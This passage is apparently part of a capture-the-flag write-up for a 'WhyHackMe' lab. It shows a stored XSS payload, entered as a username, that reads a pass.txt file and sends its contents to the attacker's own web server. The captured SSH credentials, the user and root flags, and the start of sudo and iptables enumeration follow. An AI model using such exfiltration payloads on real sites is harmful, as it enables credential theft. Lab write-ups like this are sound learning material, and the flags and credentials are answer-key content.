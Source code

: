 - registered a username = <code><script>alert(1)</script></code> and a password = <code>pass</code><br>
- logged in login.php<br>
- sent a comment in blog.php</p>

![image](https://github.com/user-attachments/assets/d3e3580b-e326-444e-b403-948ae6060251)

![image](https://github.com/user-attachments/assets/1768b2c3-3d72-4343-b26d-596989f91f90)

<p>
    
- set up an http.server<br>

```bash
:~/WhyHackMe# python3 -m http.server
```

- registered a new user = username <code><script>fetch("http://127.0.0.1/dir/pass.txt").then(response => response.text()).then(data => fetch("http://10.10.174.109:8000/?data=" + encodeURIComponent(data)));</script></code> and password = <code>pass</code><br>
- logged in in login.php<br>
- sent a comment in blog.php</p>

```bash
:~/WhyHackMe# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
TargetIP - - [30/Jun/2025 ...] "GET /?data=jack%3AWhyIsMyPasswordSoStrongIDK%0A HTTP/1.1" 200 -
```

<p>jack : WhyIsMyPasswordSoStrongIDK</p>

```bash
:~/WhyHackMe# ssh jack@TargetIP
...
jack@ubuntu:~$ cat user.txt
1ca4eb201787acbfcf9e70fca87b866a
```

<br>

> 1.2. <em>What is the root flag?</em><br><a id='1.2'></a>
>> <strong><code>4dbe2259ae53846441cc2479b5475c72</code></strong><br>


```bash
jack@ubuntu:~$ sudo -l
[sudo] password for jack: 
Matching Defaults entries for jack on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
```

<p>port 41312</p>

```bash
jack@ubuntu:/home$ sudo /usr/sbin/iptables -L -n --line-numbers
Chain INPUT (policy ACCEPT)
num  target     prot opt source               destination         
1    DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp dpt:41312
...
```
